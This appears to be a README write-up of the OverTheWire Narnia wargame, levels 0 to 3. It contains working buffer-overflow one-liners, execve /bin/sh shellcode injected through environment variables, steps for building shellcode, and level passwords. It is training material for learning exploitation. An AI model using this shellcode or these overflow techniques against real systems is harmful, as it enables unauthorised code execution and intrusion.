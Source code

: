 wargame-narnia
==============
* ssh addr: narnia0@narnia.labs.overthewire.org
* url: http://overthewire.org/wargames/narnia/

> --[ Tips ]--   
>
> This machine has a 64bit processor and many security-features enabled  
> by default, although ASLR has been switched off.  The following  
> compiler flags might be interesting:  
>     -m32                    compile for 32bit  
>     -fno-stack-protector    disable ProPolice  
>     -Wl,-z,norelro          disable relro   
> 
> In addition, the execstack tool can be used to flag the stack as  
> executable on ELF binaries.  
> Finally, network-access is limited for most levels by a local firewall.  

##测试 shellcode:
[shellcodetest.c](./shellcodetest.c)

gcc -fno-stack-protector -z execstack -m32  shellcodetest.c -o shellcodetest 

##生成 shellcode
1. 写出 xxx.asm
2. `nasm -f elf32 xxx.asm -o xxx.o`
3. `ld -m elf_i386 -o xxx xxx.o`
4. `objdump -d xxx` 从输出中获得 shellcode
   当然也可以写个工具提取
5. 考虑一下让`.text`段可写? `objcopy --writable-text -O elf32-i386 xxx xxx1` 似乎没有作用...

##更改的系统值存档
* `/proc/sys/kernel/randomize_va_space` = 2

####narnia0
flag: narnia0

####narnia1
flag: efeidiedae

[narnia0.c](./narnia0.c)

需要覆盖`val`变量, 注意管道关闭后程序也会随着关闭因此需要用 `cat` 继续向程序传递内容

```shell
$ (python -c "print('aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde')"; cat) | /narnia/narnia0
# 进入 sh 后执行
$ cat /etc/narnia_pass/narnia1
```

####narnia2
flag: nairiepecu

[narnia1.c](./narnia1.c)

程序直接把环境变量 `$EGG` 的内容当成函数执行了，所以要在 `$EGG` 中插入程序。

这次需要真正的 shellcode 了, shellcode 见 `shell.asm`, 将生成的 shellcode 导入 EGG 变量, 直接执行 `./narnia2` 即可.

shellcode: [shell.asm](./shell.asm)

```shell
$ export EGG=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
$ ./narnia1
```

####narnia3

[narnia2.c](./narnia2.c)

查看环境变量地址: `(gdb) x/s *((char **)environ + 1)`， 结果：`0xffffd8a1:     "XDG_SESSION_ID=76296"`

```shellj
$ export XDG_SESSION_ID=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
```

```shell
./narnia2 $(python -c "print('a' * 140 + '\x55\xd8\xff\xff')")
```
